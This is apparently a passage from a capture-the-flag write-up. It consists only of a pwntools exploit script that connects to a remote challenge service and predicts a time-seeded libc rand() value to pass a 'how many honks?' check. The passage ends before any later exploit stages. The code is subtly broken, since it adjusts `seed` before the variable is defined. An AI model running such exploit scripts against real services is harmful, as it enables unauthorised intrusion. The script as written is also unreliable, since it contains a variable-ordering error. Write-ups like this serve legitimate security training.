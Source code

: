 ## 7. Exploit Script

```python
#!/usr/bin/python3
from pwn import *
from Crypto.Util.number import *
from Crypto.Random import *
import ctypes
import time
import re

#program & connect infomation
file = "./chall"
binary = ELF(file, checksec=False)
context.binary= file
#context.log_level = 'debug'
server= 'XX.XX.XX.XX'
port = 9999


#case:remote
session = remote(server,port)
seed += 2                                 # account for the time lag +2
libc_file = "/home/xxxx/goose/libc.so.6"  # get the libc file from docker machine 

#case:local
#session = process(file)
#libc_file = "/lib/x86_64-linux-gnu/libc.so.6"

#startline
print("---------------------------------------------------------------")

#seed
seed = int(time.time())
local_libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")
local_libc.srand(seed)
HONK_cnt = local_libc.rand() % 0x5b + 10
print(f"honk_num:{HONK_cnt},time={seed}")
print("---------------------------------------------------------------")

#1st:conversation
wait_messages = b"> "
session.recvuntil(wait_messages)
payload = b"any"
session.sendline(payload)

#2nd:HONKS count guessing
wait_messages = b"how many honks?"
session.recvuntil(wait_messages)
payload = str(HONK_cnt).encode()
session.sendline(payload)

#receive all
res=b""
while True:
    try:
        chunk = session.recv(timeout=0.5)
        if not chunk:
            break
        res += chunk
    except EOFError:
        break

```